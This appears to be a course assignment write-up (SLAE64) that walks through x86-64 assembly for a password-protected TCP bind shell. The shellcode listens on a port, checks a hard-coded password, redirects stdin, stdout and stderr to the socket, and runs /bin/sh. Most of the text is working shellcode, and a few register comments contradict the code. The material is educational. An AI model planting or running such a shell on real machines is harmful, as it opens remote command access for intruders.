

## Assignment #1: Bind_Shell_TCP
---
---
### Introduction
---

Requirements for this assignment are to create a Shell_Bind_TCP shellcode that: 

  1. Listens on a specific port 
  2. Requires a password 
  3. If the password is correct, then Exec Shell is executed 
  4. Also, the NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode use of the linux sockets is needed. Reading documentation, the following steps are required: 

  1. Create a socket 
  2. Bind the socket to a port 
  3. Start listenning for connections 
  4. Accept incoming connections 
  5. Ask, read, and validate the password 
  6. Duplicate `SDTIN`, `STDOUT` and `STDERR` to the socket descriptor 
  7. Execute /bin/sh for the incoming and validated conection 

In case the password is not correct, the shellcode will exit with a Segmentation Fault. The shellcode won’t care on how the program terminates. This makes sense as shellcode will be smaller in size and really does not matter how it exits. 

For Linux Sockets Programming, the following System calls are required on this assignment: 

```c
int socket(int domain, int type, int protocol); 
int bind(int sockfd, const struct sockaddr *addr, 
         socklen_t addrlen); 
int listen(int sockfd, int backlog); 
int accept(int sockfd, struct sockaddr *addr, 
           socklen_t *addrlen); 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used: 

```c
int dup2(int oldfd, int newfd); 
```

And to execute `/bin/sh`, will use the `execve()` call: 

```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]); 
```
### ASM Implementation
----

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. No enphasys has been put into removing NULLs and make the shellcode small (this is done later).

#### Create a Socket

```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                 ; syscall number 
mov rdi, AF_INET            ; IPv4 
mov rsi, SOCK_STREAM        ; TCP connection 
mov rdx, 0                  ; IP Protocol 
syscall 
; Save the socket_id value in RDI for future use 
mov rdi, rax                ; value returned in RAX by syscall  
```
This is the first step required for sockets, open the socket. 
To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

  - RAX <- 41 : Syscall number. 
  - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
  - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
  - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code

#### Bind the Created Socket to a Port

```asm
; Prepare (struct sockaddr *)&server 
;       RSP will point to the struct address 
xor rax, rax 
push rax                    ; bzero(&server.sin_zero, 8) 

mov dword [rsp - 4], INADDR_ANY 
mov word [rsp - 6], PORT 
mov word [rsp - 8], AF_INET 
sub rsp, 8                  ; Update RSP with right value 

; bind(sock, (struct sockaddr *)&server, sockaddr_len) 
;       RDI already has the sock_id 
mov rax, 49                 ; syscall number 
mov rsi, rsp                ; @ to (struct sockaddr * &server) 
mov rdx, 16                 ; length of the sockaddr struct 
syscall  
```
This part irequires two steps:

  - Create the `struct sockaddr` structure. Stack is used to store the values of the struct:
    - Values are placed on the stack
    - Stack Pointer (RSP) is updated with the new address
  - Call the `bind` syscall. Values for parameters are placed into the registers:
    - RAX: Syscall number (49)
    - RDI: Socket descriptor. Already has the value from previous point
    - RSI: Address of the struct. This value is in RSP
    - RDX: The lengh of the sockaddr struct. It's 16 bytes

#### Listen for Incoming Connections

```asm
; listen(sock, MAX_CLIENTS 
;       RDI already has the sock_id 
mov rax, 50          ; syscall number 
mov rsi, 2			     
syscall 
```
Values in the registers for the `listen` call parameters are:
  - RAX <- 50 : Syscall Number 
  - RDI : Already stores the socket descriptor 
  - RSI <- 2 : Is the backlog parameter 

#### Accept Incoming Connections

```asm
; client_sock = accept(sock_id, 
;                     (struct sockaddr *)&client, 
;                      &sockaddr_len) 
;       RDI already has the sock_id 

mov rax, 43                 ; syscall number 

; Reserve space on the stack for the struct (16 bytes) 
sub rsp, 16                 ; Reserved 16 bytes 
mov rsi, rsp                ; RSI <- @ sockaddr struct 
 
; Store in the Stack the sockaddr_len value 
mov byte [rsp - 1], 16      ; Stored the len (16 bytes) 

sub rsp, 1                  ; Update value for RSP 
mov rdx, rsp                ; RDX <- @sockaddr_len 
syscall 

; Store the client socket descripion returned by accept 
mov rbx, rax                 ; r9 <- client_sock 
```
`accept()`requires the following parameters:

- Socket descriptor, that's already stored in RDI
- Address of the struct by reference. Stack is used to store this struct reserving 16 bytes in stack. The data of this struct will be modified by the syscall and will access throught RSP register
- Address where the length of the struct is stored. This value is stored in the stack. RSP has this value

Registers get this values for the parametrers:
- RAX <- 43 : Syscall Number 
- RDI : Already stores the socket descriptor 
- RSI <- RSP : Address of stack where struct is 
- RDX <- RSP+1 : Address of stack where the length of the struct is. Just one position more tan the struct itself 

This call returns a socket descriptor for the client, that is stored in R9 for future use.

#### Close the Parent Socket Descriptor

```asm
; Close the parent socket_id
mov rax, 3                  ; syscall number
syscall
```
This is the easiest part. Simply the "3" value is put into RAX for the syscall number of `close()`, and RDI already has the value of the socket descriptor to close.

#### Duplicate Socket Descriptors

```asm
; Sockets duplication
mov rdi, rbx			    ; Client socket descriptor
mov rax, 33           ; syscall number
mov rsi, 0
syscall
mov rax, 33
mov rsi, 1
syscall
mov rax, 33
mov rsi, 2
syscall
```
Using `dup2()`, `stdin`, `stdout`, and `stderr` are duplicated to the socket descriptor. One call to `dup2()` for each.
Registers get the following values for the parameters:
-	RAX <- 33 : Syscall number
-	RDI <- new file descriptor : Is the client socket id
-	RSI <- old file descriptor : Will be one call for STDIN, STDOUT, STDERR.

#### Password Stuff

First thing done in this part of the code, is to show the `"Passwd: "` prompt when connection established. This is done using the `write()`syscall to print the string stored in PASSWD_PROMPT. Access to the PASWD_PROMPT is done using Relative Addressing:

```asm
write_syscall:
        mov rax, 1                      	; Syscall number for write()
        mov rdi, 1
        lea rsi, [rel PASSWD_PROMPT]    	; Rel addressing for the prompt
        mov rdx, 8                      	; length of the string
        syscall
```

The password input is then stored in the PASSWD_INPUT string. Access to it is also done using Relative Addressing:

```asm
read_syscall:
        xor rax, rax                    ; Syscall number for read()
        mov rdi, 0
        lea rsi, [rel PASSWD_INPUT]     ; Rel addressing for the input
        mov rdx, 8                      ; Max length of the input allowed
        syscall
```

The last part of this section, is to compare the typed password from the user with the defined password. Password is defined as "12345678", and is hard coded into the RAX register (in case another password is desireed, value can be changed). RDI gets the address of the PASSWD_INPUT string via Relative Addressing. Comparison is done using the `scasq`instructio: if the two values does not match, program `jmp` to end, and if the password match, go to execute next section, the shell:

 ```asm
 compare_passwords:

        mov rax, "12345678"             ; This is the password
        lea rdi, [rel PASSWD_INPUT]
        scasq                           ; Compare the qword for passwords
        jnz exit_program                ; Passwords dont match, we exit
```

#### The Shell: Execve

Code used is the standard from Execve-Stack. In this code, the `/bin//sh` string parameter and the length of the string are stored in the Stack and accessed via the Stack Technique:

```asm
execve_syscall:

        ; First NULL push
        xor rax, rax
        push rax

        ; push /bin//sh in reverse
        mov rbx, 0x68732f2f6e69622f
        push rbx

        ; store /bin//sh address in RDI
        mov rdi, rsp

        ; Second NULL push
        push rax

        ; set RDX
        mov rdx, rsp

        ; Push address of /bin//sh
        push rdi
        mov rsi, rsp

        ; Call the Execve syscall
        add rax, 59
        syscall
```

#### Putting All Together: The ASM File

The full code can be found in the [BindShell-Execve-Stack.nasm](https://github.com/galminyana/SLAE64/Assignment01/BindShell-Execve-Stack.nasm) on the [GitHub Repo](https://github.com/galminyana/SLAE64/).

Let's try the code compiling and linking it. Commands are:

```markdown
SLAE64> nasm -f elf64 BindShell-ExecveStack.nasm -o BindShell-ExecveStack.o
SLAE64> ld -N BindShell-ExecveStack.o -o BindShell-ExecveStack
```
{:height="50%" width="50%"}

> The **-N** option in the linker is needed, as the code access to memory positions in the `.text` section (code) instead `.data` section.


 
 
 
